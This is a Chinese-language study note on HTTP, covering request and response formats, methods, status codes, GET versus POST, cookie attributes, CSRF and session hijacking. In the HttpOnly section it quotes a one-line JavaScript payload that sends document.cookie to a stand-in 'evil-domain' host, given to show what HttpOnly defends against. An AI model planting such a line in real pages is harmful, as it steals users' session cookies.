

- HTTP请求报文由 请求行、请求头、空行、请求数据 4个部分组成
- HTTP响应报文由 状态行、响应头、空行、响应正文 4个部分组成
- HTTP协议明文传输，数据容易泄漏，HTTPS则为数据加密传输
- GET的参数写在URL，没有Body；POST的参数不写在URL，写在Body；**这个只是约定，并不是HTTP的协议内容**，实际上GET参数写在Body，POST参数写在URL只要服务器支持也行

### HTTP协议

HTTP协议是Hyper Text Transfer Protocol（超文本传输协议）的缩写,是用于从万维网（WWW:World Wide Web ）服务器传输超文本到本地浏览器的传送协议。

HTTP是一个基于TCP/IP通信协议来传递数据（HTML 文件, 图片文件, 查询结果等）。

HTTP（Hypertext Transfer Protocol）本质上就是一个TCP连接，只不过协议规定了使用80端口，以及发送命令或数据的格式，而TCP本身是没有加密的功能。致命的是，HTTP在数据传输过程中，数据就是以明文的方式传输的，由于数据没有被加密，所以很容易出现数据窃听、篡改或者是身份伪造的不安全的行为。

### HTTP特点

- HTTP是无连接：无连接的含义是限制每次连接只处理一个请求。服务器处理完客户的请求，并收到客户的应答后，即断开连接。采用这种方式可以节省传输时间。
- HTTP是媒体独立的：这意味着，只要客户端和服务器知道如何处理的数据内容，任何类型的数据都可以通过HTTP发送。客户端以及服务器指定使用适合的MIME-type内容类型。
- HTTP是无状态：HTTP协议是无状态协议。无状态是指协议对于事务处理没有记忆能力。缺少状态意味着如果后续处理需要前面的信息，则它必须重传，这样可能导致每次连接传送的数据量增大。另一方面，在服务器不需要先前信息时它的应答就较快。

### HTTP请求方法

HTTP1.0 定义了三种请求方法： GET, POST 和HEAD 方法

HTTP1.1 新增了六种请求方法：OPTIONS、PUT、PATCH、DELETE、TRACE 和CONNECT 方法

| 方法    | 描述                                                         |
| ------- | ------------------------------------------------------------ |
| GET     | 幂等，用于获取资源，请求指定页面，并返回实体主体             |
| HEAD    | 幂等，类似于GET请求，但是不不返回实体主体                    |
| POST    | 非幂等，用于提交请求，可以更新或者创建资源                   |
| PUT     | 幂等，用于向指定的URL传送更新或者创建资源，前端需提供完整字段 |
| PATCH   | 幂等，请求是一个局部更新，后端仅更新接收到的字段。           |
| DELETE  | 幂等，请求服务器删除指定的页面                               |
| CONNECT | HTTP/1.1协议中预留给能够将连接改为管道方式的代理服务器       |
| OPTIONS | 允许客户端直接查看服务器的性能                               |
| TRACE   | 回显服务器收到的请求，主要用于测试或者诊断                   |

> 幂等：在编程中一个幂等操作的特点是其任意多次执行所产生的影响均与一次执行的影响相同。

POST、PUT、PATCH这三者都有更新的功能，区别就是：

PATCH：是局部更新，后端仅更新接收到的字段。<br>PATCH：幂等的，如果每次提交相同的内容，结果是一致的。比如：在某个特别的页面里只能修改userName，就可以使用PATCH做局部更新

PUT：虽然也是更新资源，但要求前端提供的一定是一个完整的资源对象，不然缺了的那些字段应该被清空。PUT：幂等的，如果每次提交相同的内容，结果是一致的。比如：一个接口的功能是将当前余额减一个值，每次提交指定该值为100，这个时候如果连续用PUT掉用（提交的内容一样），那结果只会减100.

POST：个人理解好像也是可以局部更新的回想以前使用的API<br>POST：非幂等的，如果每次提交相同的内容，结果可能不一致的。比如：一个接口的功能是将当前余额减一个值，每次提交指定该值为100，这个时候如果连续用POST掉用（提交的内容一样），那每次结果都减100.

> POST和PUT的区别容易被简单地误认为 “POST表示创建资源，PUT表示更新资源“ ，但实际上两者都可以用来创建或是更新数据，单从技术上来说,他们并没有什么区别。他们的区别主要体现在PUT是幂等的，而POST是非幂等的。

### HTTP请求消息

一个HTTP请求报文由请求行（request line）、请求头（header）、空行和请求数据4个部分组成，下图给出了请求报文的一般格式。



#### 请求行

请求行（Request Line）由请求方法字段、URL字段和HTTP协议版本字段3个字段组成，它们用空格分隔。例如<br>GET  /index.html  HTTP/1.1。

#### 请求头

请求头部（Request Header）由关键字/值对组成，每行一对，关键字和值用英文冒号“:”分隔。请求头部通知服务器有关于客户端请求的信息，典型的请求头有：

- User-Agent：产生请求的浏览器类型。
- Host：请求的主机名，允许多个域名同处一个IP地址，即虚拟主机。
- Accept：客户端可识别的内容类型列表。
- Accept-Language：客户端可识别的语言
- Accept-Encoding：客户端可识别的编码（压缩）方式（gzip、deflate...）
- Accept-Charset：客户端可识别的字符集（Unicode(uff-8、utf-16...)、ASCII、GB2312、BIG5、GB18030...）
- Connection：控制网络连接是否保持打开状态（keep-alive、close...）
- Cookie：向服务器发送Cookie
- Content-Type：请求数据的类型（text/html、charset=utf-8、application/json、multipart/form-data、application/x-www-form-urlencoded、boundary=something、[......](https://www.runoob.com/http/http-content-type.html)）
- Content-Length：请求数据的长度
- [Request Header More](https://cloud.tencent.com/developer/section/1189914)

#### 空行


最后一个请求头之后是一个空行，发送回车符和换行符，通知服务器以下不再有请求头。

#### 请求数据

请求数据（Request Body）不在GET方法中使用，而是在POST方法中使用

#### 示例

##### GET

```text
//请求首行，参数放在url中
GET /search?hl=zh-CN&source=hp&q=domety&aq=f&oq= HTTP/1.1

//请求头信息，因为GET请求没有正文

Host: localhost  //主机名

User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 //客户端类型

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 //客户端可识别的内容类型
//q被称为相对品质因子，范围 0 =< q <= 1，q 值越大，请求越倾向于获得其“;”之前的类型表示的内容，若没有指定 q //值，则默认为1，若被赋值为0，则用于提醒服务器哪些是浏览器不接受的内容类型
//text/html： 默认q=1
//application/xhtml+xml： 默认q=1
//application/xml： 指定q=0.9
//*/*：任意类型，指定q=0.9
//所以上面的倾向值排序就是：text/html、application/xhtml+xml、application/xml、*/*

Accept-Language: zh-cn,zh;q=0.5 //客户端可识别的语言
//zh-cn：默认q=1
//zh：指定q=0.5

Accept-Encoding: gzip, deflate //客户端可识别的压缩方式

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7 //客户端可识别的字符集
//GB2312：默认q=1
//utf-8：指定q=0.7
//*：任意类型，指定q=0.7

Connection: keep-alive //连接状态

Cookie: JSESSIONID=369766FDF6220F7803433C0B2DE36D98 //告诉服务器客户端的Cookie

//空行

//因为GET没有正文，所以下面为空 [可选]
```

##### POST

```text
// 请求首行

POST /hello/index.jsp HTTP/1.1

//请求头信息

Host: localhost //主机名

User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 //客户端信息

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 //客户端可识别的内容

Accept-Language: zh-cn,zh;q=0.5 //客户端可识别的语言

Accept-Encoding: gzip, deflate //客户端可识别的压缩方式

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7 //客户端可识别的字符集

Connection: keep-alive //连接状态

Referer: http://localhost/hello/index.jsp //不知道啥意思

Cookie: JSESSIONID=369766FDF6220F7803433C0B2DE36D98 //告诉服务器客户端的Cookie

Content-Type: application/x-www-form-urlencoded //请求数据的类型为Key=Value形式

Content-Length: 14 //请求数据长度

// 这里是空行

//POST有请求正文

username=hello //正文
```


### HTTP响应消息

HTTP响应也由三个部分组成，分别是：状态行、响应头、空行、响应正文。


#### 状态行

状态行（Statue Line）格式如下

>HTTP-Version  Status-Code  Reason-Phrase  CRLF 

HTTP-Version：表示服务器HTTP协议的版本，
Status-Code：表示服务器发回的响应状态代码，
Reason-Phrase：表示状态代码的文本描述。

HTTP状态码的英文为HTTP Status Code。状态代码由三位数字组成，第一个数字定义了响应的类别，且有五种可能取值：

- 1xx：指示信息--表示请求已接收，继续处理。
- 2xx：成功--表示请求已被成功接收、理解、接受。
- 3xx：重定向--要完成请求必须进行更进一步的操作。
- 4xx：客户端错误--请求有语法错误或请求无法实现。
- 5xx：服务器端错误--服务器未能实现合法的请求。

常见状态代码、状态描述的说明如下。

- 200 OK：客户端请求成功。
- 400 Bad Request：客户端请求有语法错误，不能被服务器所理解。
- 401 Unauthorized：请求未经授权，这个状态代码必须和WWW-Authenticate报头域一起使用。
- 403 Forbidden：服务器收到请求，但是拒绝提供服务。
- 404 Not Found：请求资源不存在，举个例子：输入了错误的URL。
- 500 Internal Server Error：服务器发生不可预期的错误。
- 503 Server Unavaiable：服务器当前不能处理客户端的请求，一段时间后可能恢复正常。
- [更多状态码](https://www.runoob.com/http/http-status-codes.html)

#### 响应头

请求头部（Reponse Header）由关键字/值对组成，每行一对，关键字和值用英文冒号“:”分隔，典型的响应头有：

- Allow：服务器支持哪些请求方法（如GET、POST等）。
- Content-Encoding：文档的编码方法（gzip、deflate...）。只有在解码之后才可以得到Content-Type头指定的内容类型。
- Content-Type：表示后面的文档属于什么MIME类型（text/html、charset=utf-8、application/json、multipart/form-data、application/x-www-form-urlencoded、boundary=something、[......](https://www.runoob.com/http/http-content-type.html)）
- Content-Length：表示内容长度。只有当浏览器使用持久HTTP连接时才需要这个数据。（猜测是设置请求头CONNECTION为keep-alive ）
- Set-Cookie：设置和页面关联的Cookie
- [Response Header More](https://www.runoob.com/http/http-header-fields.html)

#### 空行

#### 响应数据

服务器返回的数据，一般都有json、xml等格式

#### 示例

暂时没有示例

### GET&POST

#### 是什么

GET 和 POST，两者是 HTTP 协议中发送请求的方法

`GET`方法请求一个指定资源的表示形式，使用GET的请求应该只被用于获取数据

`POST`方法用于将实体提交到指定的资源，通常导致在服务器上的状态变化或**副作用**

本质上都是 TCP 链接，并无差别

但是由于 HTTP 的规定和浏览器/服务器的限制，导致他们在应用过程中会体现出一些区别

#### 区别

从`w3schools`得到的标准答案的区别如下：

- GET在浏览器回退时是无害的，而POST会再次提交请求。
- GET产生的URL地址可以被Bookmark，而POST不可以。
- GET请求会被浏览器主动cache，而POST不会，除非手动设置。
- GET请求只能进行url编码，而POST支持多种编码方式。
- GET请求参数会被完整保留在浏览器历史记录里，而POST中的参数不会被保留。
- GET请求在URL中传送的参数是有长度限制的，而POST没有。
- 对参数的数据类型，GET只接受ASCII字符，而POST没有限制。
- GET比POST更不安全，因为参数直接暴露在URL上，所以不能用来传递敏感信息。
- GET参数通过URL传递，POST放在Request body中

##### 参数位置

貌似从上面看到`GET`与`POST`请求区别非常大，但两者实质并没有区别

无论 `GET `还是 `POST`，用的都是同一个传输层协议，所以在传输上没有区别

当不携带参数的时候，两者最大的区别为第一行方法名不同

> POST /uri HTTP/1.1 \r\n
>
> GET /uri HTTP/1.1 \r\n

当携带参数的时候，我们都知道`GET`请求是放在`url`中，`POST`则放在`body`中

`GET` 方法简约版报文是这样的

```text
GET /index.html?name=qiming.c&age=22 HTTP/1.1
Host: localhost
```

`POST `方法简约版报文是这样的

```text
POST /index.html HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

name=qiming.c&age=22
```

注意：**这里只是约定，并不属于`HTTP`规范**，相反的，我们可以在`POST`请求中`url`中写入参数，或者`GET`请求中的`body`携带参数

##### 参数长度

`HTTP `协议没有`Body`和 `URL` 的长度限制，对 `URL `限制的大多是浏览器和服务器的原因

服务器处理长` URL` 要消耗比较多的资源，为了性能和安全考虑，会给 `URL` 长度加限制

##### 安全

`POST `比` GET` 安全，因为数据在地址栏上不可见

然而，从传输的角度来说，他们都是不安全的，因为` HTTP` 在网络上是明文传输的，只要在网络节点上捉包，就能完整地获取数据报文

只有使用`HTTPS`才能加密安全

##### 数据包

对于`GET`方式的请求，浏览器会把`http header`和`data`一并发送出去，服务器响应200（返回数据）

对于`POST`，浏览器先发送`header`，服务器响应100 `continue`，浏览器再发送`data`，服务器响应200 ok

并不是所有浏览器都会在`POST`中发送两次包，`Firefox`就只发送一次

### cookie

#### cookie介绍

HTTP cookie，简称 cookie 是由用户的网页浏览器存放在用户计算机或其他设备上的小文本文件

- cookie可以是由网络服务器创建并由网页浏览器存放
- cookie也可以是前端创建并由网页浏览器存放（Javascript 可读写的 cookie 只能是没有用`http-only`限制的 cookie）

#### cookie分类

- 会话cookie

  会话cookie仅在用户浏览网站时临时存储。当用户关闭浏览器后会自动过期或删除

- 持久性cookie

  持久性cookie只在其创建者设置的特定日期后过期，期间一直有效。

- 安全cookie

  安全cookie只能通过加密连接传输（即HTTPS）。它们不能通过未加密的连接传输（即HTTP）。这使得cookie不容易被盗。

- 第一方cookie

  由相同站点发送的 cookie

- 第三方cookie

  由跨站请求发送的cookie
  
  > 是否是 相同站点 发送的（不同则为跨站）详见 `cookie跨站`

#### cookie用途

- 对话管理

  - 虽然最初引入cookie是为了让用户在浏览网站时记录他们想要购买的物品。但现在用户购物车的内容通常存储在服务器的数据库中，而不再是客户端的cookie中。

  - 当前会话cookie的常见用途是登录。当用户访问网站的登录页面时，Web服务器通常会向客户端发送一个包含唯一会话标识符的cookie。当用户成功登录时，服务器会记住该特定会话标识符已经过身份验证，并授予用户访问其服务的权限。
  - 一个 Web 站点可能会为每一个访问者产生一个唯一的ID, 然后以 Cookie 文件的形式保存在每个用户的机器上，以后每次请求都带上相应的ID。

- 个性化

  保存用户的偏好，比如网页的字体大小、背景色等等

- 追踪

  跟踪cookie用于跟踪记录用户的网络浏览习惯，比如用户的购买习惯。
  
  可以是当前网站自己跟踪，也可以是第三方跟踪，详见 `cookie安全性`

#### cookie属性

**Expires，Max-Age**

1. Expires 属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个cookie，浏览器根据本地时间，决定 cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 cookie 一定会在服务器指定的时间过期。
2. Max-Age 属性指定从现在开始 cookie 存在的 秒数，比如60 * 60 * 24 * 365（即一年）。过了这个时间以后，浏览器就不再保留这个 cookie。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

**Domain**

1. Domain 属性指定浏览器发出 HTTP请求时，哪些域名要附带这个 cookie

   如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 cookie 。
   
   如果指定了 domain 属性，那么子域名也会附带这个 cookie 。
   
   如果服务器指定的域名不属于服务器当前域名或者其父域名，浏览器会拒绝这个 cookie 。

**Path**

1. Path属性指定浏览器发出HTTP请求时，哪些路径要附带这个cookie。

   只要浏览器发现，Path属性值是HTTP请求路径的开头一部分，就会在头信息里面带上这个 cookie 。

**Secure**

1. Secure属性指定浏览器只有在加密协议HTTPS下，才能将这个cookie发送到服务器。

   该属性只是一个开关，不需要指定值

**HttpOnly**

1. HttpOnly属性指定该cookie无法通过JavaScript脚本拿到，主要是document.cookie、XMLHttpRequest对象和Request API。这样就防止了该cookie被脚本读到，只有浏览器发出HTTP请求时，才会带上该cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的cookie发往第三方服务器。如果设置了一个cookie的HttpOnly属性，上面代码就不会读到该cookie。

**SameSite**

1. SameSite 的作用

   Cookie 的 SameSite 属性就是用来限制第三方 Cookie，从而减少安全风险的。

   比如：CSRF攻击、用户追踪...详见 `cookie安全性`

   >Cookie 的 domain (your-bank.com) 与当前访问的网站 (malicious.com) 不一样，这种 cookie 就称为第三方 cookie。

2. SameSite 的值

   Cookie 的SameSite属性可以设置三个值：Strict、Lax、None

   - **Strict**

     Strict 是最严格的防护，将阻止浏览器在所有跨站点请求中将 cookie 发送到目标站点。因此这种设置可以阻止所有 CSRF 攻击。

     ```
     Set-Cookie: CookieName=CookieValue; SameSite=Strict;
     ```

     这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 cookie，跳转过去总是未登陆状态。
     不过，具有交易业务的网站很可能不希望从外站链接到任何交易页面，因此这种场景最适合使用 strict 标志。

   - **Lax**

     Lax规则稍稍放宽，大多数情况也是不发送第三方 cookie，但是导航到目标网址的Get请求除外。另外，使用JavaScript脚本发起的请求也无法携带第三方 cookie。

     ```
     Set-Cookie: CookieName=CookieValue; SameSite=Lax;
     ```

     导航到目标网址的 GET 请求，只包括三种情况：链接，预加载请求、以 GET 方式提交的表单

   - **None**

     Chrome 计划将 Lax 变为默认设置。这时，网站可以选择显式关闭 SameSite 属性，将其设为None。不过，前提是必须同时设置 Secure 属性（Cookie 只能通过 HTTPS 协议发送），否则无效。

     SameSite=None的 cookie 会在同站请求、跨站请求下发送。

#### cookie跨站

上面我们讲cookie的分类的时候讲到第一方cookie和第三方cookie 的区别就是：是否是 相同站点 发送的（不同则为跨站）。
所以第三方cookie也可以理解为跨站请求所设置的cookie。

所以，第三方cookie定义中的跨站与samesite所作用的跨站请求中的跨站，两者的判断是一样的。

那么怎么判断是不是形成跨站了呢？

我们是拿 “请求的目标URL（或者cookie的domain）” 和 “当前网站URL（也就是浏览器地址栏中的网址）” 这两者来进行比较从而判断是否形成跨站的。

两者的ORIGIN的注册域相同则为相同站点，不同则构成跨站。所谓注册域，是指您可以购买或租用的域名，即公共后缀（public suffix）之下的一级，也称为顶级域名。

#### cookie安全性

**隐私和第三方cookie**

由于网页可能第三方服务，所以使用一个网页很可能会遇到第三方cookie（即所访问网页之外其他服务器的cookie）。RFC 2109和RFC 2965要求浏览器保护用户隐私，默认不允许在服务器之间共享cookie。但RFC 6265放宽。大多数浏览器只要第三方网站有合理的隐私政策申明，就默认允许第三方 cookie。

广告是第三方cookie常见的使用场景，广告公司借此跟踪用户。网站应当使用户知道有第三方cookie存在，不向消费者披露第三方cookie使用情况的网站运营商可能面临法律风险。因此，一般网站都会在[隐私或cookie政策](https://zh.m.wikipedia.org/zh-hans/隐私权政策)中对其使用的第三方cookie作出说明。

简单的cookie跟踪举例：

- 用户登录a.com网站，这时候a.com网站是可以通过设置当前网站a.com域名的cookie来记录跟踪用户各种信息习惯的
- 如果a.com用了第三方服务b.com或者有给第三方服务b.com授权，那b.com就可以通过设置b.com域名的cookie来记录当前用户的各种信息习惯的，虽然当前用户没有在b.com网站但依然可以设置b.com的cookie。这就是第三方cookie的使用（纯属个人理解，哈哈）

> 不知道怎么组织被跟踪

**CSRF 攻击**

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

一个典型的CSRF攻击有着如下的流程：

- 受害者登录a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了b.com。
- b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带a.com的Cookie。
- a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- a.com以受害者的名义执行了act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执行了自己定义的操作。

> 攻击者拿不到cookie内容，可以通过设置samesite来阻止CSRF攻击

**Cookie窃取和会话劫持**

很多网站使用cookie作为用户的唯一标识符，但如果网站使用cookie作为会话标识符，攻击者就可以通过窃取受害者的全套cookie来冒充用户的请求。

> 攻击者可以拿到cookie内容，可以通过设置httpOnly来防止cookie泄漏

### 参考

[http请求头和响应头](https://www.cnblogs.com/lauhp/p/8979393.html)

[get和post的区别](https://github.com/febobo/web-interview/issues/145)

[cookie维基百科](https://zh.m.wikipedia.org/zh-hans/Cookie#属性)

[你对cookie了解多少](https://juejin.cn/post/6847902220227182606)